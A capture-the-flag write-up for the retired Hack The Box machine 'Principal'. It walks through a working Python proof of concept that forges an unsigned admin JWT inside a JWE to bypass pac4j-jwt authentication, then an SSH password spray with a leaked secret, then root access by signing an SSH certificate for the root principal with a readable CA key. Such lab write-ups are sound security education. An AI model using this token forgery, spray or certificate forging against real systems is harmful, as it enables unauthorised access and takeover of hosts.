







# HTB Principal: Walkthrough

## Machine Info

| Field | Detail |
|-------|--------|
| Platform | Hack The Box |
| Machine | Principal |
| Difficulty | Medium |
| OS | Linux (Ubuntu 24.04) |
| IP | 10.129.XX.XX |
| Status | Retired |
| CVEs exploited | CVE-2026-29000 (pac4j-jwt authentication bypass) |

---

## Summary

Principal is a themed lesson in one specific class of trust failure: verifying the cryptographic wrapper while ignoring the identity claim inside it. The foothold exploits CVE-2026-29000, where pac4j-jwt 6.0.3 decrypts a JWE envelope, discovers the inner payload is an unsigned PlainJWT, and silently skips signature verification, allowing a forged admin token to authenticate. Post-auth, an API endpoint leaks a value labelled `encryptionKey` that turns out to be the SSH password for the `svc-deploy` service account. Root then falls to a misconfigured SSH certificate authority: the CA private key is group-readable by `deployers`, and sshd is configured with `TrustedUserCAKeys` but no `AuthorizedPrincipalsFile`, so a certificate signed for the `root` principal is trusted without question.

---

## Step 1: Reconnaissance

**Objective:** identify open services and the attack surface.

```bash
rustscan -a 10.129.XX.XX --ulimit 5000 -- -sC -sV -oN rustscan.txt
```

**Result:**

```
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.14
8080/tcp open  http-proxy Jetty
|_http-title: Principal Internal Platform - Login
```

**What this told me:**
- Only two services. SSH is standard; the web application on 8080 is the natural attack surface first.
- The Jetty banner and the "Principal Internal Platform" title suggest a Java-stack web app, likely with a JWT-based session model given how common that is on Jetty.

**Screenshot:** Figure 1



---

## Step 2: HTTP header inspection

**Objective:** fingerprint the web stack before browsing.

```bash
cat rustscan.txt | grep pac4j-jwt
```

**Result:** among the standard headers, one stood out:

```
X-Powered-By: pac4j-jwt/6.0.3
```

**What this told me:**
- A named authentication library with a pinned version is a gift. It is a direct pointer to CVE research: skip generic web fuzzing and see whether this specific version has known auth flaws first.

- `pac4j` is a well-known Java authentication framework. The `-jwt` module handles JWT and JWE. A quick CVE lookup on `pac4j-jwt 6.0.3` returned CVE-2026-29000, an authentication bypass involving unsigned JWTs inside JWE envelopes.

**Screenshot:** Figure 2



---

## Step 3: Client-side source review

**Objective:** understand the authentication flow before attempting to abuse it.

```bash
curl -s http://10.129.XX.XX:8080/static/js/app.js
```

**Result:** the file was heavily commented. The relevant facts:

- Credentials post to `/api/auth/login`; server returns a JWE-encrypted JWT.
- Token format: JWE using RSA-OAEP-256 and A128GCM; the inner JWT is signed with RS256.
- The public encryption key is exposed at `/api/auth/jwks`.
- Protected endpoints include `/api/dashboard`, `/api/users`, `/api/settings`.
- Roles are `ROLE_ADMIN`, `ROLE_MANAGER`, `ROLE_USER`.

**What this told me:**
- Every ingredient for CVE-2026-29000 is present: JWE decryption in front, JWS verification behind, and the public key needed to encrypt a forged token is served openly at the JWKS endpoint. If the vulnerability is present, I can craft an admin token without ever seeing a valid one.

**Screenshot:** Figure 2



---

## Step 4: JWKS retrieval

**Objective:** obtain the public key required to encrypt a JWE to the server.

```bash
curl -s http://10.129.XX.XX:8080/api/auth/jwks | jq
```

**Result:**

```json
{ "keys": [{ "kty": "RSA", "e": "AQAB", "kid": "enc-key-1", "n": "[REDACTED]" }] }
```

**What this told me:**
- I now have everything needed for the forgery: the encryption algorithm (RSA-OAEP-256), the content encryption algorithm (A128GCM), the public key, and the key ID to reference in the JWE header.

**Screenshot:** Figure 2



---

## Step 5: Forging the token (CVE-2026-29000)

**Objective:** craft an unsigned PlainJWT asserting admin claims and wrap it in a valid JWE.

The vulnerability mechanism is a null-check bug in pac4j-jwt 6.0.3:

1. The outer JWE is decrypted with the server's private key. Legitimate operation.
2. `toSignedJWT()` is called on the inner payload to obtain a signed JWT object.
3. If the inner payload is a `PlainJWT` with header `{"alg":"none"}`, `toSignedJWT()` returns `null`.
4. The next line is `if (signedJWT != null) { ... verify signature ... }`.
5. When `signedJWT` is `null`, the entire signature check is skipped and the claims are trusted.

Python PoC (paths and secrets scrubbed):

```python
import json, time, base64, sys, requests
from jwcrypto import jwk, jwe

TARGET = sys.argv[1]
resp = requests.get(f"{TARGET}/api/auth/jwks")
key_data = resp.json()["keys"][0]
pub_key = jwk.JWK(**key_data)

def b64url(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

now = int(time.time())
header  = b64url(json.dumps({"alg": "none"}).encode())
payload = b64url(json.dumps({
    "sub": "admin",
    "role": "ROLE_ADMIN",
    "iss": "principal-platform",
    "iat": now,
    "exp": now + 3600
}).encode())
plain_jwt = f"{header}.{payload}."   # trailing dot = empty signature

token = jwe.JWE(
    plain_jwt.encode(),
    recipient=pub_key,
    protected=json.dumps({
        "alg": "RSA-OAEP-256",
        "enc": "A128GCM",
        "kid": key_data["kid"],
        "cty": "JWT"
    })
).serialize(compact=True)

r = requests.get(f"{TARGET}/api/dashboard",
                 headers={"Authorization": f"Bearer {token}"})
print(f"/api/dashboard -> HTTP {r.status_code}")
```

```bash
python3 exploit.py http://10.129.XX.XX:8080
```

**Result:**

```
[+] Public key retrieved (kid: enc-key-1)
[+] Forged token: [REDACTED]
/api/dashboard -> HTTP 200
```

**What this told me:**
- HTTP 200 on an authenticated endpoint with an unsigned inner token is proof of the bypass. The token is now usable against every protected API endpoint, and can also be inserted into browser sessionStorage under `auth_token` to browse the dashboard as admin.

**Screenshot:** Figure 3



---

## Step 6: Post-auth enumeration

**Objective:** find data that moves me from application admin to operating-system access.

```bash
export TOKEN="[REDACTED]"
api() { curl -s -H "Authorization: Bearer $TOKEN" "http://10.129.XX.XX:8080/api/$1" | jq; }
api users
api settings
```

**Result:** `/api/users` returned eight accounts, one of which (`svc-deploy`) was annotated as the service account used for automated deployments via SSH certificate auth.

`/api/settings` returned an infrastructure block containing:

```json
{
  "encryptionKey": "[REDACTED]",
  "sshCaPath": "/opt/principal/ssh/",
  "sshCertAuth": "enabled"
}
```

**What this told me:**
- The `encryptionKey` value was a human-memorable string, not a random cryptographic key. That naming is misleading; in practice this is a password, and a password exposed via the settings API is very likely reused elsewhere.
- The `sshCaPath` and `sshCertAuth` fields foreshadow the second-stage vulnerability: whoever wrote this configuration is trusting SSH certificate authentication and has kept the CA on the box.
- Next step: try the `encryptionKey` value as an SSH password against every account I have.

**Screenshot:** Figure 4

---

## Step 7: SSH password spray

**Objective:** find any account that reuses the leaked secret as its SSH password.

Extract usernames from the API response into `ssh-users.txt`, then:

```bash
nxc ssh 10.129.XX.XX -u ssh-users.txt -p '[REDACTED]'
```

**Result:**

```
SSH  10.129.XX.XX  22  [-] admin:[REDACTED]
SSH  10.129.XX.XX  22  [+] svc-deploy:[REDACTED]  Linux - Shell access!
```

**What this told me:**
- Secret reuse across trust boundaries; classic F-03 territory. The `svc-deploy` account is a working shell.

```bash
ssh svc-deploy@10.129.XX.XX
```

User flag retrieved from `~/user.txt`.

**Screenshot:** Figure 5



---

## Step 8: Local enumeration as svc-deploy

**Objective:** find the escalation vector.

```bash
id
# uid=1001(svc-deploy) gid=1002(svc-deploy) groups=1002(svc-deploy),1001(deployers)
```

**What this told me:**
- `deployers` is not a standard Linux group. Any non-standard group is a breadcrumb: something on the system has been given group-level access for a reason, and that reason is worth finding.

```bash
find / -group deployers 2>/dev/null
```

Result led directly to `/opt/principal/ssh/`.

```bash
ls -la /opt/principal/ssh/
```

```
-rw-r-----  1 root deployers  288  README.txt
-rw-r-----  1 root deployers 3381  ca
-rw-r--r--  1 root root       742  ca.pub
```

**What this told me:**
- `ca` is the SSH CA private key. Group `deployers` can read it. That is enough by itself to be dangerous, but I need to confirm that sshd on the box actually trusts this CA before it means anything for privesc.

---

## Step 9: sshd configuration review

**Objective:** confirm the CA is trusted and check for principal restrictions.

```bash
cat /etc/ssh/sshd_config.d/60-principal.conf
```

**Result:**

```
PubkeyAuthentication yes
PasswordAuthentication yes
PermitRootLogin prohibit-password
TrustedUserCAKeys /opt/principal/ssh/ca.pub
```

**What this told me:**
- `TrustedUserCAKeys` is set to the public half of the CA I can read. Any certificate signed by that CA will be accepted.
- No `AuthorizedPrincipalsFile` or `AuthorizedPrincipalsCommand` directive. Without one of those, sshd does not restrict which principals (usernames) the CA is authorised to issue for. Whatever principal I put in the certificate, sshd will honour.
- `PermitRootLogin prohibit-password` blocks password-based root login but explicitly allows key-based (and certificate-based) root login. That is the gap.

This is the same class of flaw as the foothold: the cryptographic wrapper (the certificate signature) is validated, but the identity claim inside (the principal) is not.

---

## Step 10: Root

**Objective:** escalate to root by forging a certificate for the `root` principal.

```bash
# 1. Generate a fresh keypair
ssh-keygen -t ed25519 -f /tmp/pwn -N ""

# 2. Sign the public key with the CA, principal = root
ssh-keygen -s /opt/principal/ssh/ca \
           -I "pwn-root" \
           -n root \
           -V +1h \
           /tmp/pwn.pub
```

Verify the certificate parsed as expected:

```bash
ssh-keygen -L -f /tmp/pwn-cert.pub
```

```
Type: ssh-ed25519-cert-v01@openssh.com user certificate
Signing CA: RSA SHA256:[REDACTED]
Key ID: "pwn-root"
Principals:
    root
```

Log in:

```bash
ssh -i /tmp/pwn root@localhost
# uid=0(root) gid=0(root) groups=0(root)
```

**Result:** `whoami` returns `root`. Root flag retrieved from `/root/root.txt`.

**What this told me:**
- The escalation worked because two independent defects lined up: a service-account group had read access to a CA private key, and sshd was configured to trust that CA without constraining which principals it could issue. Either defect on its own is bad; the combination is trivial root.

**Screenshot:** Figure 6



---

## Flags

| Flag | Method | Status |
|------|--------|--------|
| User | JWE-wrapped unsigned JWT bypass to admin API; credential harvest; SSH password reuse to `svc-deploy` | [REDACTED] |
| Root | Read of group-readable SSH CA private key; forged user certificate for `root` principal; SSH login as root | [REDACTED] |

---

## Tools Used

| Tool | Purpose |
|------|---------|
| RustScan | Fast TCP port sweep |
| Nmap | Service and version detection |
| curl, jq | HTTP interaction and JSON parsing |
| Python (jwcrypto, requests) | JWE token forgery PoC |
| NetExec (nxc) | SSH password spray |
| OpenSSH `ssh-keygen`, `ssh` | Keypair generation, CA signing, session |

---

## Lessons Learned

1. **Read the banner before you read the app.** The `X-Powered-By: pac4j-jwt/6.0.3` header collapsed the entire recon phase into one CVE lookup. On a real engagement I would still enumerate broadly, but a version-pinned framework banner is worth checking first, not last.
2. **A field name is not a type declaration.** The value labelled `encryptionKey` in `/api/settings` was not a key; it was a password. Treat any secret-shaped string returned from an API as a password candidate for every account you have, regardless of what the field is called.
3. **Non-standard groups are always worth chasing.** `deployers` is not something Ubuntu ships with. The moment `id` showed membership, the next question was "what does this group own?" That question found the CA key in one command.
4. **The same trust-model mistake can appear twice on one box.** Both stages of Principal exploited the same conceptual error: verifying that a wrapper was cryptographically valid without verifying the identity inside it. Once I recognised the pattern in the foothold, the sshd configuration review took a minute; I already knew what to look for.

---

## References

| Resource | URL |
|----------|-----|
| CVE-2026-29000 (pac4j-jwt authentication bypass) | https://nvd.nist.gov/vuln/detail/CVE-2026-29000 |
| RFC 7519 (JSON Web Token), Section 6 (Unsecured JWTs) | https://datatracker.ietf.org/doc/html/rfc7519#section-6 |
| OpenSSH `sshd_config(5)` | https://man.openbsd.org/sshd_config |
| OpenSSH PROTOCOL.certkeys | https://github.com/openssh/openssh-portable/blob/master/PROTOCOL.certkeys |
| jwcrypto documentation | https://jwcrypto.readthedocs.io/ |

---

*This walkthrough documents a retired Hack The Box machine completed in an authorised lab environment for educational purposes. Flags are redacted. No unauthorised systems were accessed.*
